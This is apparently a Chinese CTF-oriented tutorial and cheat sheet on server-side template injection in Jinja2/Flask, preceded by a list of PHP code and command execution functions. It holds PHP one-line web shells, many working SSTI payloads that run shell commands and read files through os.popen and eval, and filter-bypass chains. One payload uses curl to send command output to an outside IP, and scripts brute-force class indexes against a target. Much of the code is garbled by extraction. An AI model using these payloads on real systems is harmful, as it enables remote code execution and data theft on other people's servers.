

SSTI注入姿势
一、常见代码执行函数
代码执行函数主要有（9个）：eval()，assert()，call_user_func()，create_function()，array_map()，call_user_func_array()，array_filter()，uasort()，preg_replace()
1- eval()
1 2 3 4 5 传入的参数必须为PHP代码，即需要以分号结尾。system (whoami);<?php @eval ($_POST ['cmd' ]);?>
特别注意：php中@是干什么的 屏蔽掉出错信息,有@时就算连接出错,也不会报错的
原因是防止别人根据错误提示信息来推测出你的数据库结构进行注入攻击一类的黑客行为
2- assert() --（最好不要加上分号作为结尾）
1 2 3 4 5 assert函数是直接将传入的参数当成PHP代码，不需要以分号结尾（特别注意），有时加上分号不会显示结果。system (whoami)<?php @assert ($_POST ['cmd' ])?>
3- call_user_func()
1 2 3 4 5 传入的参数作为assert函数的参数
1 2 3 4 <?php
4- create_function()
1 2 3 创建匿名函数执行代码
1 2 3 4 5 6 <?php
5- array_map()
1 2 3 4 5 6 7 8 9 10 11 12 array_map() 函数
6- call_user_func_array()
1 2 3 4 5 6 7 8 将传入的参数作为数组的第一个值传递给assert函数
7- array_filter()
1 2 3 4 5 6 7 8 9 用回调函数过滤数组中的元素：array_filter(数组,函数)
8- uasort()函数
1 2 3 4 5 6 7 php环境>=<5.6才能用
9- preg_replace()
1 2 3 4 5 6 7 8 9 10 preg_replace('正则规则','替换字符'，'目标字符')
二、常见命令执行函数
*命令执行函数主要有（7个）：system()，passthru()，exec()，pcntl_exec()，shell_exec()，popen()/proc_popen()，反引号 ``
1- system()
1 2 3 4 作用
2-passthru()
1 2 3 4 作用
3- exec()
1 2 3 4 5 6 作用
4- pcntl_exec()
1 2 3 linux: <?php pcntl_exec("/bin/bash",array($_POST["cmd"])); ?>
5- shell_exec()
1 2 3 4 5 6 作用
6- popen()/proc_open()
1 2 3 4 5 6 7 8 9 10 11 12 作用
7- 反引号 ``
1 2 3 4 5 6 7 8 作用
详解查看 https://blog.csdn.net/weixin_39934520/article/details/109231480?ops_request_misc=&request_id=&biz_id=102&utm_term=popen是干什么的&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-1-109231480.nonecase&spm=1018.2226.3001.4187
三、注入流程以及必要函数的用法
1 2 3 4 变量块 {{}} 用于将表达式打印到模板输出
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 __class__ 类的一个内置属性，表示实例对象的类。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 int() 将值转换为int类型；
2.1. 初识SSTI
1. 什么是SSTI？
SSTI就是服务器端模板注入(Server-Side Template Injection)，实际上也是一种注入漏洞。
可能SSTI对大家而言不是很熟悉，但是相信大家很熟悉SQL注入。实际上这两者的思路都是相同的，因此可以类比来分析。
2. render_template渲染函数是什么
就是把HTML涉及的页面与用户数据分离开，这样方便展示和管理。当用户输入自己的数据信息，HTML页面可以根据用户自身的信息来展示页面，因此才有了这个函数的使用。
3. 注入的思想
用函数不断调用我们要使用的命令：file、read、open、ls等等命令，我们用这些来读取写入配置文件；
4. 什么是模板引擎
是为了使 用户界面 和 业务数据（内容）分离而产生的，它可以生成特定格式的文档，利用模板引擎来生成前端的HTML代码，模板引擎会提供一套生成HTML代码的程序，之后只需获取用户的数据，放入渲染函数，该数据便会嵌入生成好的HTML页面中 ，然后反馈给浏览器，呈现在用户面前
当前的主流框架，一般都采用MVC模式，即：Model-View-Controller ，用户的输入先进入Controller控制器，然后根据清流类型和请求的指令发送给对应的Model业务模型，由Model层进行业务逻辑的判断、数据库的存取等，最后把结果返回给View视图层，再经模板引擎的渲染展示给用户
模板引擎的基本机理就是替换（转换） ：将指定的标签转换为需要的业务数据；将指定的伪语句按照某种流程来变换输出
引用一段代码来简单说一下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 // 模板'<p>Hello,my name is <%name%>.I am <%age%> years old.</p>' ;'Deutsh' ,22 exec 使用全局正则表达式意味着在循环中使用，因为它仍然会检索所有匹配的子表达式exec ()仅返回找到的第一个匹配项while (match = regex.exec (template))match [0 ],data[match [1 ]])return template;
上述代码，我们的目的是：将数据文件 中对应的name和age替换到模板文件 中
主要的执行在模板引擎的while函数中，match = regex.exec(template)会返回一个array，这个数组中包含了多个项目
⚠️ 为什么会包含两项呢：当正则表达式设置 g 标志位时，可以多次执行 exec 方法来查找同一个字符串中的成功匹配
1 之后template = template.replace(match[0],data[match[1]])等同于template = template.replace("<%name%>",data["name"])完成模板中数据的替换
5. 引发SSTI的真正原因
render_template渲染函数的问题
渲染函数在渲染的时候，往往对用户输入的变量不做渲染。
1 也就是说例如：`{{}}`在Jinja2中作为变量包裹标识符，Jinja2在渲染的时候会把`{{}}`包裹的内容当做变量解析替换。比如`{{1+1}}`会被解析成2。如此一来就可以实现如同sql注入一样的注入漏洞。
还比如说
由前面模板代码安利的演示，我们可以发现，若服务端接受了用户的输入后（比如对于上述案例，data的name和age的数据由数据的输入/提交/请求而得），未经任何处理就将其作为Web应用模板内容的一部分 ，就会导致模板引擎在进行目标编译渲染的过程中，执行了用户插入的可执行语句，从而可能导致信息泄露、代码执行等问题
凡是使用模板的地方，SSTI是绕不过的问题，模板引擎可由多种语言实现，所以SSTI也就出现在了多种语言环境中
模板引擎设计出来的一种防护机制，不允许使用没有定义或者声明的模块，这适用于所有的模板引擎。
6. route装饰器路由
使用route（）装饰器告诉Flask什么样的URL能触发我们的函数.route（）装饰器把一个函数绑定到对应的URL上，这句话相当于路由，一个路由跟随一个函数，如
1 2 3 @app.route('/')
访问127.0.0.1:5000/则会输出123，我们修改一下规则
这个时候访问127.0.0.1:5000/test会输出123.
1 2 3 @app.route("/hello/<username>")
根据url里的输入，动态辨别身份，此时便可以看到如下页面：
或者可以使用int型，转换器有下面几种：
1 2 3 4 5 6 7 8 int 接受整数
7. main入口
当.py文件被直接运行时，if name == ‘main‘之下的代码块将被运行；当.py文件以模块形式被导入时，if name == ‘main‘之下的代码块不被运行。如果你经常以cmd方式运行自己写的python小脚本，那么不需要这个东西，但是如果需要做一个稍微大一点的python开发，写 if name ==’main__’ 是一个良好的习惯，大一点的python脚本要分开几个文件来写，一个文件要使用另一个文件，也就是模块，此时这个if就会起到作用不会运行而是类似于文件包含来使用。
1 2 3 if __name__ == '__main__':
测试的时候，我们可以使用debug，方便调试，增加一句
或者（效果是一样的）
这样我们修改代码的时候直接保存，网页刷新就可以了，如果不加debug，那么每次修改代码都要运行一次程序，并且把前一个程序关闭。否则会被前一个程序覆盖。
这会让操作系统监听所有公网 IP,此时便可以在公网上看到自己的web。
8. 模板渲染（重点）
你可以使用 render_template() 方法来渲染模板。你需要做的一切就是将模板名和你想作为关键字的参数传入模板的变量。这里有一个展示如何渲染模板的简例:
简单的模版渲染示例
1 2 3 4 5 6 from flask import render_template
我们从模板渲染开始实例，因为我们毕竟不是做开发的，flask以模板注入闻名- -！，所以我们先从flask模版渲染入手深入剖析。
首先要搞清楚，模板渲染体系，render_template函数渲染的是templates中的模板，所谓模板是我们自己写的html，里面的参数需要我们根据每个用户需求传入动态变量。
1 2 3 4 5 ├── app.py
我们写一个index.html文件写templates文件夹中。
1 2 3 4 5 6 7 8 <html > <head > <title > {{title}} - 小猪佩奇</title > </head > <body > <h1 > Hello, {{user.name}}!</h1 > </body > </html >
里面有两个参数需要我们渲染，user.name ，以及title
我们在app.py文件里进行渲染。
1 2 3 4 5 @app.route('/' @app.route('/index' def index ():'name' : '小猪佩奇' }return render_template("index.html" ,title='Home' ,user=user)
Image这次渲染我们没有使用用户可控，所以是安全的，如果我们交给用户可控并且不过滤参数就有可能造成SSTI模板注入漏洞。
2.2. 判断SSTI类型
上面提到网站模板引擎有jinja2、tornado、smarty、twig等等，那么如何判断遇到的是哪种类型？
广为流传的就是这张图了，根据处理返回值的不同来进行判别。（注意括号的数量等）
1. 常见的模板引擎
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 PHP
模板引擎众多，各个模板引擎的语法也不尽相同，我们最主要的是能定位出是否存在SSTI漏洞，至于后续的利用，我们掌握一些，其余的见到再查即可
Jinja2
Jinja2 是一种面向Python的现代和设计友好的模板语言，它是以Django的模板为模型的。{{…}} 块。{%…%} 块中。
1 2 3 控制结构 {% %} 可以声明变量，也可以执行语句
2. 如何测试是否存在SSTI
简单来说，就是更改请求参数使之承载含有模板引擎语法的 Payload，通过页面渲染返回的内容检测承载的 Payload 是否有得到编译解析，有解析则可以判定含有 Payload 对应模板引擎注入 ，否则不存在 SSTI
此处我们拿来bmjoker师傅 提供的一段示例代码
Twig模板引擎示例代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 <?php require_once dirname (__FILE__ ).'\twig\lib\Twig\Autoloader.php' ;Twig_Autoloader ::register (true );$twig = new Twig_Environment (new Twig_Loader_String ());$output = $twig ->render ("Hello {{name}}" , array ("name" => $_GET ["name" ]));echo $output ;?>
这段代码中，由于模板引擎一般都会默认对渲染的变量值进行编码和转义 。所以一般情况下并不会存在XSS等攻击的可能
若就如我们最开始的例子所说，若模板引擎渲染的内容受我们控制了 ，就不一定了
1 2 // 上述代码基本内容不变，$output后的内容发生变化
此时render函数由于缺少第二个参数，所以直接就会把"Hello 用户的输入"拼如模板进行渲染 ,这就相当于改变了最初的模板，由于模板最初是由开发者定义的，所以他会受到“信任”
1 对于Twig模板的变量`{{%s}}`除了传递变量外，还可以执行表达式，最简单的表达式就是{{2*2}}，这也是辨认是否存在SSTI最基本的指纹，若我们输入{{2*2}}，HTML页面返回其其结果4，就说明该表达式被解析，存在SSTI
3. 靶场实战
HTB-Templated
1 题目直接提示我们本体使用的模板引擎为**Jinja2**，根据我们之前总结的各个模板引擎的变量类型，我们可以知道该变量的类型是 **{{%s}}**，所以话不多说我们直接拼接尝试
2*2被计算，确认存在SSTI模板注入
exp
本题的重点还是在利用方面：由于我们的目标是读取处于服务器本地的一个存有Flag的文件，所以我们的重点是找到一个含有某种读取文件的函数的类（Python中），我们通过查阅手册发现可以利用Popen函数完成该功能，调用该函数会返回一个文件的句柄，然后再配合read()函数读取即可
该函数会执行fork一个子进程执行command这个命令，同时将子进程的标准输出通过管道连接到父进程，对于文件在父进程调用read()读取即可，对于命令在父进程会被执行
那么下面的重点就是，如何找到Popen这个函数所属的类，一般有两种方法，我们先说第一种
由于我们想要找的是一个子类，所以第一步即使找到其对象基类 即class 'object'，为了达到这步，我们可以使用__mro__属性来访问对象的继承类，但我们目前没有对象，所以这里我们就构造一个空字符串 :
1 `{{"".__class__.__mro__}}`其中`__class__`用于返回调用的参数类型
可以看出该子类继承自class'str'与class 'object'并以一个元组返回，我们通过索引获得对象类
1 {{"".__class__.__mro__[1]}}
接下来，我们要列举出所有集成自object的子类，通过对该对象调用__subclasses__方法
1 {{"".__class__.__mro__[1].__subclasses__()}}
但这有一个明显的缺点就是，好家伙，这么多子类，怎么可能找得到，为了缩小范围我们对其进行切片
1 `{{"".__class__.__mro__[1].__subclasses__()[400:]}}`查找400个以后的元素
成功定位其位置，处于滴414号位置
1 {{"".__class__.__mro__[1].__subclasses__()[414]}}
然后我们为该函数传递参数调用即可
1 {{"".__class__.__mro__[1].__subclasses__()[414]("ls",shell=True,stdout=-1).communicate()}}
查看本地文件，发现flag.txt
1 2 Popen.communicate()
之后我们直接cat他就看见啦~~~~
1 {{"".__class__.__mro__[1].__subclasses__()[414]("cat flag.txt",shell=True,stdout=-1).communicate()}}
剩下的未实操过
exp2
这里我们还有一种方法，使用全局下的内置模块引用__builtins__（指向__builtin__）
在Python中，有一个内建模块，该模块中有一些常用函数;而该模块在Python启动后、且没有执行程序员所写的任何代码前，Python会首先加载 该内建函数到内存
1 {{"".__class__.__bases__[0].__subclasses__()[1500].__init__.__globals__['__builtins__']['__import__']("os").popen("cat flag.txt").read()}}
同样，我们获取基本类后，继续向下获取基本类(object)的子类，然后init初始化类，globals全局来查找所有的方法及变量和参数并查看其内建模块的引用
使用内建模块中的__import__引入os库，并适用其中的popen函数读取flag.txt即可
注意：
该exp中，对子类的选择subclasses()[1500]时，经测试大多数子类中都包含内建模块的引用，但依旧有不少不包含，要注意
我们使用burp将子类的选择加为参数进行爆破
遍历出（以下截图中Payload的子类号都可以引用，具有**__builtins__**）
以下为不可以使用的（由此可看出号往大了写就对了~）
4. SSTI利用思路
先上Payload：
1 {{'' .__class__.__base__.__subclasses__()[1 ].__init__.__globals__['__builtins__' ]['eval' ]('__import__("os").popen("ls").read()' )}}
下面分步对每一步代码进行分析：
1.首先考虑拿到一个class，通过字符串、元组、列表、字典均可。
1 2 3 4 5 6 7 8 {{'' .__class__}}
2.下一步目的是拿到object基类。
1 2 {{'' .__class__.__base__}}
3.然后获取对应子类。
1 2 {{'' .__class__.__base__.__subclasses__()}}
4.在所有的子类中选择一个可用的类，去获取__globals__全局变量。如果这些函数并没有被重载，这时他们并不是function，不具有__globals__属性。
1 2 {{'' .__class__.__base__.__subclasses__()[128 ]}}
5.通过某些手段找到某个函数是可用的，下一步利用这个类的__init__函数获取到__globals__全局变量。
1 2 3 4 5 {{'' .__class__.__base__.__subclasses__()[128 ].__init__}}'' .__class__.__base__.__subclasses__()[128 ].__init__.__globals__}}
6.再获取到__globals__全局变量里的__builtins__中的eval函数。
1 2 3 4 5 {{'' .__class__.__base__.__subclasses__()[128 ].__init__.__globals__['__builtins__' ]}}'' .__class__.__base__.__subclasses__()[128 ].__init__.__globals__['__builtins__' ]['eval' ]}}
7.使用popen命令执行即可。
1 2 {{'' .__class__.__base__.__subclasses__()[128 ].__init__.__globals__['__builtins__' ]['eval' ]('__import__("os").popen("whoami").read()' )}}
2.3 常用类
先举几个基础的例子方便理解：1、class
__class__用来查看变量所属的类，格式为变量.class
>>> ''.__class__
<class 'str'>
>>> ().__class__
<class 'tuple'>
>>> {}.__class__
<class 'dict'>
>>> [].__class__
<class 'list'>
2、bases
__bases__用来查看类的基类，注意是类的基类，所以格式为变量.class .bases
>>> ''.__class__.__bases__
(<class 'object'>,)
>>> ().__class__.__bases__
(<class 'object'>,)
>>> {}.__class__.__bases__
(<class 'object'>,)
>>> [].__class__.__bases__
(<class 'object'>,)
同时也能加上数组，比如变量.class .bases [0]来获得第一个基类。
值得一提的是还有个类是__mro__，它会显示类和基类，这是它和__bases__的不同。
>>> ''.__class__.__mro__
(<class 'str'>, <class 'object'>)
3、subclasses()
subclasses ()查看当前类的子类，格式变量.class .bases [0].subclasses ()class .bases [0].subclasses ()[1]
1 2 >>> ''.__class__.__bases__[0].__subclasses__()[0]
这个时候就可以开始利用类里面的方法了。
例如:
1 变量.__class__.__bases__[0].__subclasses__()[138].__init__.__globals__
init初始化类，然后globals全局来查找所有的方法及变量及参数。
由此我们可以看到各种各样的参数方法函数，去找一个可利用的function来执行，比如popen的话，就可以这样利用：
1 ''.__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['popen']('dir').read()
大概是这么个原理，但这样说来还是不知道怎么利用，来看几道题就能更深刻理解了。
之后的题目参考：https://blog.csdn.net/Manuffer/article/details/120739989?spm=1001.2014.3001.5506
魔术对象
1 2 3 4 5 6 7 8 __class__ :返回类型所属的对象
用魔术对象构造一个简单的语句
我们在里面运行以下：
1 2 3 4 5 6 7 8 9 >>> [].__class__
解读一下：
如何调用这些子类：
1 2 3 4 5 6 >>> [].__class__.__base__.__subclasses__()[2]
这样我们就可以调用这些子类了
假如我们要去查看某个网页获取flag，那么我们用file函数：(file 在PT2里面还可以使用，在PY3里面已经被移除了)
1 [].__class__.__base__.__subclasses__()[40]('fl4g').read()
但是如果我们想要去获取目录等等，就需要用到system函数：读取目录一般是ls函数，那么我们来看看如何调用
1 2 3 4 5 6 7 8 9 10 11 12 !/usr/bin/env python
得到类中OS模块的函数(71)
1 2 3 ().__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].system('ls')
有时候system函数会被过滤掉，我们就使用
1 ().__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir('.') #读取本级目录
dir()与__dict__
dir()是一个函数，返回的是list；
2.4 常见的playload
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 获得基类
2.5 常见的命令执行方式
os.system()
1 …init__globals[‘os’].system(‘ls’)的输出是执行结果的返回值，而不是执行命令的输出，成功执行返回0，失败返回-1，因为输出结果不明显，所以我们也会用到下面这个命令：
os.popen()
1 2 3 4 5 用法：os.popen(command[,mode[,bufsize]])
缺点：Popen非常强大，支持多种参数和模式，通过其构造函数可以看到支持很多参数。但Popen函数存在缺陷在于，它是一个阻塞的方法，如果运行cmd命令时产生内容非常多，函数就容易阻塞。另一点，Popen方法也不会打印出cmd的执行信息
warnings.catchwarning
访问os模块还有从warnings.catchwarnings模块入手的，而这两个模块分别位于元组中的59，60号元素。__init__方法用于将对象实例化，在这个函数下我们可以通过funcglobals（或者__globals）看该模块下有哪些globals函数（注意返回的是字典），而linecache可用于读取任意一个文件的某一行，而这个函数引用了os模块。
于是还可以挖掘到类似payload（注意payload都不是直接套用的，不同环境请自行测试）
1 2 3 [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('ls')
values
作用：返回字典中的所有值。
1 2 3 4 5 6 7 8 9 #!/usr/bin/python
__builtins__内建函数
内建函数就是本身就有的，启动的时候python解释器就会自动解析，内建函数里面包括了许多我们需要的eval函数，可以执行命令,但是经常会被ban
1 2 3 4 5 6 7 8 9 10 11 当我们启动一个python解释器时，即时没有创建任何变量或者函数，还是会有很多函数可以使用，我们称之为内建函数。
1 2 3 4 5 6 7 ''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')
绕过
拼接
1 2 3 object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
编码
1 2 3 4 5 6 7 8
过滤中括号[]
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 getitem()
过滤双下划线__
1 2 3 4 5 6 7 8 9 10 11 12 {{
过滤花括号
1 2 3 4 5 6 7 8 {% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://xx.xxx.xx.xx:8080/?i=`whoami`').read()=='p' %}1{% endif %}
过滤引号
request.args 是flask中的一个属性,为返回请求的参数,这里把 path 当作变量名,将后面的路径传值进来,进而绕过了引号的过滤
1 2 {{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)
过滤了单双引号和中括号
request.cookies仍然可以用getitem 等绕过都可
1 2 ?name={{url_for.__globals__.os.popen(request.cookies.c).read()}}
过滤关键字
base64编码绕过getattribute 使用实例访问属性时,调用该方法class 关键词
1 2 {{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()
字符串拼接绕过
1 2 {{[].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]
过滤 _
1 2 3 4 利用request.args属性
过滤os
1 2 3 ?name=
过滤args
1 2 3 4 5 6 ?name={{url_for.__globals__[request.cookies.a][request.cookies.b]
引号内十六进制绕过
1 2 3 4 {{"".__class__}}
" ’ chr等被过滤，无法引入字符串
1 dict(buil=aa,tins=dd)|join()
利用 string 、 pop 、 list 、 slice 、 first 等过滤器从已有变量里面直接找
1 (app.__doc__|list()).pop(102)|string()
构造出 % 和 c 后，用格式化字符串代替 chr
1 2 {%set udl=dict(a=pc,c=c).values()|join %} # uld=%c
过滤数字
例如web370
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 ?name=
使用 Jinja2 过滤器绕过
在 JinJa2 中内置了很多过滤器，变量可以通过过滤器进行修改，过滤器与变量之间用管道符号|隔开，括号中可以有可选参数，也可以没有参数，过滤器函数可以带括号也可以不带括号。可以使用管道符号|连接多个过滤器，一个过滤器的输出应用于下一个过滤器。
abs()
forceescape()
map()
select()
unique()
attr()
format()
max()
selectattr()
upper()
batch()
groupby()
min()
slice()
urlencode()
capitalize()
indent()
pprint()
sort()
urlize()
center()
int()
random()
string()
wordcount()
default()
items()
reject()
striptags()
wordwrap()
dictsort()
join()
rejectattr()
sum()
xmlattr()
escape()
last()
replace()
title()
filesizeformat()
length()
reverse()
tojson()
first()
list()
round()
trim()
float()
lower()
safe()
truncate()
其中常见过滤器用法如下：
abs()
其他用法详见官方文档：
Template Designer Documentation - Jinja Documentation (3.2.x)
使用过滤器构造Payload，一般思路是利用这些过滤器，逐步拼接出需要的字符、数字或字符串。对于一般原始字符的获取方法有以下几种：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 {% set org = ({ }|select()|string()) %}{{org}}set org = (self|string()) %}{{org}}set org = self|string|urlencode %}{{org}}set org = (app.__doc__|string) %}{{org}}set num = (self|int ) %}{{num}}set num = (self|string|length) %}{{num}}set point = self|float |string|min %}{{point}}
通过以上几种Payload，返回的字符串中包含尖括号、字母、空格、下划线、数字、空格、百分号、点号。
GPT代码解释
1 2 3 4 5 6 7 8 9 10 11 12 13 这段代码是使用Jinja2模板语言的语法。让我逐步解释它的含义：
实战演示
[2020 DASCTF 八月安恒月赛]ezflask
题目源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 from flask import Flask, render_template, render_template_string, redirect, request, session, abort, send_from_directory@app.route("/" def index ():def safe_jinja (s ):'class' , 'attr' , 'mro' , 'base' ,'request' , 'session' , '+' , 'add' , 'chr' , 'ord' , 'redirect' , 'url_for' , 'config' , 'builtins' , 'get_flashed_messages' , 'get' , 'subclasses' , 'form' , 'cookies' , 'headers' , '[' , ']' , '\'' , '"' , '{}' ]True for no in blacklist:if no.lower() in s.lower():False break return flagif not request.args.get('name' ):return open (__file__).read()elif safe_jinja(request.args.get('name' )):'name' )else :'wendell' ''' <div class="center-content"> <p>Hello, %s</p> </div> <!--flag in /flag--> <!--python3.8--> ''' % (name)return render_template_string(template)if __name__ == "__main__" :'0.0.0.0' , port=5000 )
可以看到题目过滤的死死地，最关键是把attr也给过滤了的话，这就很麻烦了，但是我们还可以用过滤器进行绕过。
在存在ssti的地方执行如下payload：
1 2 {% set org = ({ }|select()|string()) %}{{org}}
可以看到，我们得到了一段字符串：<generator object select_or_reject at 0x7f06771f4150>，这段字符串中不仅存在字符，还存在空格、下划线，尖号和数字。也就是说，如果题目过滤了这些字符的话，我们便可以在 <generator object select_or_reject at 0x7f06771f4150> 这个字符串中取到我们想要的字符，从而绕过过滤。
然后我们在使用list()过滤器将字符串转化为列表：
1 {% set orglst = ({ }|select|string|list) %}{{orglst}}
如上图所示，反回了一个列表，列表中是 <generator object select_or_reject at 0x7f06771f4150> 这个字符串的每一个字符。接下来我们便可以使用使用pop()等方法将列表里的字符取出来了。如下所示，我们取一个下划线 _：
1 {% set xhx = (({ }|select|string|list).pop(24)|string) %}{{xhx}} # _
同理还能取到更多的字符：
1 2 3 4 5 {% set space = (({ }|select|string|list).pop(10)|string) %}{{spa}} # 空格
这里，其实有了数字0之后，我们便可以依次将其余的数字全部构造出来，原理就是加减乘除、平方等数学运算，如下示例：
1 2 3 4 5 6 7 {% set zero = (({ }|select|string|list).pop(38)|int) %} # 0
通过上述原理，我们可以依次获得构造payload所需的特殊字符与字符串：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 # 首先构造出所需的数字:
将上面构造的字符或字符串拼接起来构造出 __import__('os').popen('cat /flag').read()：
1 {% set pld = xhx*2~imp~xhx*2~left~yin~os~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}
如上图所示，成功构造出了 __import__('os').popen('cat /flag').read() 。
然后将上面构造的各种变量添加到SSTI万能payload里面就行了：
1 2 3 4 5 6 7 8 9 {% for f,v in whoami.__init__.__globals__.items() %} # globals
所以最终的payload为：
1 {% set zero = (({ }|select|string|list).pop(38)|int) %}{% set one = (zero**zero)|int %}{% set two = (zero-one-one)|abs|int %}{% set four = (two*two)|int %}{% set five = (two*two*two)-one-one-one %}{% set seven = (zero-one-one-five)|abs %}{% set xhx = (({ }|select|string|list).pop(24)|string) %}{% set space = (({ }|select|string|list).pop(10)|string) %}{% set point = ((app.__doc__|string|list).pop(26)|string) %}{% set yin = ((app.__doc__|string|list).pop(195)|string) %}{% set left = ((app.__doc__|string|list).pop(189)|string) %}{% set right = ((app.__doc__|string|list).pop(200)|string) %}{% set c = dict(c=aa)|reverse|first %}{% set bfh=self|string|urlencode|first %}{% set bfhc=bfh~c %}{% set slas = bfhc%((four~seven)|int) %}{% set but = dict(buil=aa,tins=dd)|join %}{% set imp = dict(imp=aa,ort=dd)|join %}{% set pon = dict(po=aa,pen=dd)|join %}{% set os = dict(o=aa,s=dd)|join %}{% set ca = dict(ca=aa,t=dd)|join %}{% set flg = dict(fl=aa,ag=dd)|join %}{% set ev = dict(ev=aa,al=dd)|join %}{% set red = dict(re=aa,ad=dd)|join %}{% set bul = xhx*2~but~xhx*2 %}{% set pld = xhx*2~imp~xhx*2~left~yin~os~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}{% for f,v in whoami.__init__.__globals__.items() %}{% if f == bul %}{% for a,b in v.items() %}{% if a == ev %}{{b(pld)}}{% endif %}{% endfor %}{% endif %}{% endfor %}
参考：https://xz.aliyun.com/t/9584
2.6 一些姿势
1. config
1 2 {{config}} 可以获取当前设置，如果题目类似 app.config ['FLAG'] =
2. self
1 2 {{self}} ⇒ <TemplateReference None>
3. “” 、 [] 、 () 等数据结构
1 2 3 主要目的是配合 __class__.__mro__[2] 这样找到 object 类
4、url_for, g, request, namespace, lipsum, range, session, dict,get_flashed_messages, cycler, joiner, config等
如果config，self不能使用，要获取配置信息，就必须从它的上部全局变量（访问配置current_app
1 2 3 4 {{url_for.__globals__['current_app'].config.FLAG}}
5. 在URL执行py命令格式
1 2 3 4 5 6 7 {%这是内容%}
2.7 常用到的payload
1 2 3 4 5 6 7 name={{().__class__.__mro__[-1].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}} //132是os模块
注入顺序：先找到一个类型所属的对象–>在找到这个对象所继承的基类–>他的功能是谁传授给他的(‘找到他父亲’)–>他父亲除了有这个子类，还有其他的子类呗，这里的类，就包括很多的方法了，比如我们最需要用到的就是，OS模块来命令执行–>找到OS类了，将这个类初始化成方法，相当于我们调用了OS模块–>通过globals保存对全局变量的引用，然后再用OS模块进行命令执行
SSTI常用的语句格式
1 2 3 4 {{5*5}} 直接执行
绕过SSTI过滤
再读了一部分的文章，再结合自己的做题情况来看，对SSTI考点总结如下：
1 2 3 4 1.过滤一些字符–>绕过即可
符号的过滤
1 2 3 访问变量属性： . [] getattribute
过滤了点号
1 {{().__class__ }}等同于{{()['__class__']}}
1 2 3 ""|attr("__class__")
过滤了中括号
还有一些其他的访问方法：pop get getitem:
1 2 3 4 5 {{url_for.__globals__['__builtins__']}}
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 {{"".class}}=={{""[[cla,ss]|join]}} //这是拼接绕过
2.8 脚本
1. 寻找内建函数 eval 执行命令
1 2 3 4 5 6 7 8 9 10 11 12 13 14 import requests'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36' for i in range (500 ):"http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()[" +str (i)+"].__init__.__globals__['__builtins__']}}" if 'eval' in res.text:print (i)
1 2 3 4 5 6 7 8 9 10 11 我们可以记下几个含有eval函数的类：
2. 寻找 os 模块执行命令
Python的 os 模块中有system和popen这两个函数可用来执行命令。其中system()函数执行命令是没有回显的，我们可以使用system()函数配合curl外带数据；popen()函数执行命令有回显。所以比较常用的函数为popen()函数，而当popen()函数被过滤掉时，可以使用system()函数代替。
首先编写脚本遍历目标Python环境中含有os模块的类的索引号：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 import requests'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36' for i in range (500 ):"http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()[" +str (i)+"].__init__.__globals__}}" if 'os.py' in res.text:print (i)
